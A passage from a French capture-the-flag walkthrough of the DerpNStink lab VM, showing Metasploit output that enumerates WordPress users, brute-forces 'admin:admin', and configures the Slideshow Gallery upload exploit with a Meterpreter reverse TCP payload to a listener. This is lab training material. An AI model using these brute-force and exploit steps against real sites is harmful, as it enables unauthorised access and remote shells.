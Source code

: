 Ne trouvant rien de plus (l'exploit pour *slideshow-gallery* nécessite un compte sur le wordpress) j'ai tenté de brute-forcer les deux comptes avec des wordlists de plus en plus grosses, sans résultat, en me servant de la fonction de brute-force de *wpscan*.  

J'ai aussi tenté de casser les comptes FTP avec *Hydra*... nope.  

Au boût d'un moment j'ai rebooté la VM et cette fois la base de données était cassée, le Wordpress renvoyait une erreur...  

J'ai donc re-importé la VM et tenté de casser les comptes Wordpress, cette fois avec *Metasploit* qui n'en a fait qu'une bouchée :  

```plain
msf auxiliary(wordpress_login_enum) > exploit

[*] /weblog/ - WordPress Version 4.6.9 detected
[*] /weblog/ - WordPress User-Enumeration - Running User Enumeration
[+] /weblog/ - Found user 'unclestinky' with id 1
[*] /weblog/ - Usernames stored in: /root/.msf4/loot/20180311120114_default_192.168.2.3_wordpress.users_558758.txt
[*] /weblog/ - WordPress User-Validation - Running User Validation
[*] /weblog/ - WordPress User-Validation - Checking Username:'admin'
[+] /weblog/ - WordPress User-Validation - Username: 'admin' - is VALID
[+] /weblog/ - WordPress User-Validation - Found 1 valid user
[*] /weblog/ - WordPress Brute Force - Running Bruteforce
[*] /weblog/ - WordPress Brute Force - Skipping all but 1 valid user
[*] /weblog/ - WordPress Brute Force - Trying username:'admin' with password:'admin'
[+] /weblog/ - WordPress Brute Force - SUCCESSFUL login for 'admin' : 'admin'
[*] /weblog/ - Brute-forcing previously found accounts...
[*] /weblog/ - WordPress Brute Force - Trying username:'unclestinky' with password:''
[-] /weblog/ - WordPress Brute Force - Failed to login as 'unclestinky'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

J'ai décidé de retenter ensuite avec *wpscan*... rien ! Comme quoi il ne faut jamais apporter trop de confiance aux outils qu'on utilise :p   

```plain
msf exploit(wp_slideshowgallery_upload) > show options

Module options (exploit/unix/webapp/wp_slideshowgallery_upload):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST        192.168.2.3       yes       The target address
   RPORT        80                yes       The target port
   SSL          false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /weblog/          yes       The base path to the wordpress application
   VHOST        derpnstink.local  no        HTTP server virtual host
   WP_PASSWORD  admin             yes       Valid password for the provided username
   WP_USER      admin             yes       A valid username

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.240    yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WP SlideShow Gallery 1.4.6
```